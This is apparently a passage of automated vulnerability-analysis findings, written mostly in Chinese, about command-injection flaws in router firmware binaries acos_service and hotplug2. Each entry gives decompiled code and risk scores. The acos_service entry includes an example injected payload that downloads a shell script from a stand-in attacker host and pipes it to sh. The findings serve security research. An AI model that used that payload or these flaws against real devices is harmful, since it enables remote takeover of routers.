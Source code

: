 ### 命令注入-fcn.0001a53c

- **文件/目录路径：** `sbin/acos_service`
- **位置：** `acos_service:0x0001a53c fcn.0001a53c 和 0x0001a064 fcn.0001a064`
- **风险评分：** 8.5
- **置信度：** 9.0
- **描述：** 命令注入漏洞存在于函数 fcn.0001a53c 中。用户控制的命令行参数通过 sprintf 构建命令字符串（格式为 'ifconfig %s del %s/%s'），然后通过 system 执行，缺少输入验证。触发条件：argc > 1 且 NVRAM 配置（如 'ipv6_proto' 匹配 'autoconfig'）满足。约束条件：无输入过滤或转义。潜在攻击：攻击者注入恶意命令（如 '`wget http://attacker.com/shell.sh -O - | sh`'），导致任意代码执行。
- **代码片段：**
  ```
  // 从污点分析提取
  0x0001a248: bl sym.imp.sprintf // 构造命令字符串 'ifconfig %s del %s/%s'
  0x0001a250: bl sym.imp.system // 执行命令，用户输入被注入
  ```
- **关键词：** 命令行参数: argv, NVRAM 变量: ipv6_proto, autoconfig, pppoe, auto, dhcp, 系统调用: system, sprintf, 自定义函数符号: fcn.0001a53c, fcn.0001a064, sym.imp.acosNvramConfig_match, sym.imp.sprintf, sym.imp.system
- **备注：** 攻击链完整：命令行参数通过 sprintf 和 system 执行。污点数据流从输入点到汇聚点已追踪。建议验证 NVRAM 变量的可控制性。

---
### Command-Injection-hotplug2-event-handler

- **文件/目录路径：** `sbin/hotplug2`
- **位置：** `sbin/hotplug2:0xa8d0 fcn.0000a8d0 (switch cases 0 and 1)`
- **风险评分：** 8.5
- **置信度：** 9.0
- **描述：** 在 hotplug2 的事件处理机制中，当处理热插拔事件时，不可信的输入数据（来自 param_2，包含设备属性或操作）通过 fcn.0000a73c 函数处理。该函数仅检查多个 '%' 字符，但未清理 shell 元字符（如 ;, &, |, `, $）。这种缺乏清理允许经过身份验证的非 root 用户通过精心制作的事件数据注入任意命令。漏洞在 fcn.0000a8d0 的 switch cases 0（system 调用）和 1（execvp 调用）中触发。攻击者可以通过影响热插拔事件（例如，插入带有恶意属性的 USB 设备）来利用此漏洞，导致命令以提升的权限执行（如果 hotplug2 以 root 身份运行）。攻击链从输入源（param_2）到汇点（system()/execvp()）完整，中间没有适当的边界检查或验证。
- **代码片段：**
  ```
  相关代码片段来自 fcn.0000a8d0：
    - Case 0 (system call):
      case 0:
          uVar5 = sym.imp.strdup(**(iVar12 + 4));  // 从 param_2 加载不可信字符串
          uVar9 = fcn.0000a73c(uVar5, param_1);    // 处理字符串（无 shell 元字符清理）
          iVar11 = sym.imp.system(uVar9);          // 直接命令执行 - 漏洞点
          // ... 其他代码
    - Case 1 (execvp call):
      case 1:
          piVar6 = *(iVar12 + 4);                  // 从 param_2 加载不可信字符串数组
          iVar11 = *piVar6;
          uVar13 = sym.imp.fork();
          if (uVar13 != 0xffffffff) {
              piVar10 = piVar6;
              if (uVar13 == 0) {
                  while( true ) {
                      iVar8 = *piVar10;
                      if (iVar8 == 0) break;
                      iVar8 = fcn.0000a73c(iVar8, param_1);  // 处理每个字符串（无清理）
                      *piVar10 = iVar8;            // 用处理后的数据覆盖
                      piVar10 = piVar10 + 1;
                  }
                  sym.imp.execvp(iVar11, piVar6);  // 执行命令和参数 - 漏洞点
                  sym.imp.exit(iVar8);
              }
          }
          break;
    - fcn.0000a73c 中的代码显示缺乏清理：
      while( true ) {
          iVar3 = sym.imp.strchr(param_1, 0x25);  // 检查 '%'
          if (iVar3 + 0 == 0) break;
          param_1 = iVar3 + 0 + 1;
  ```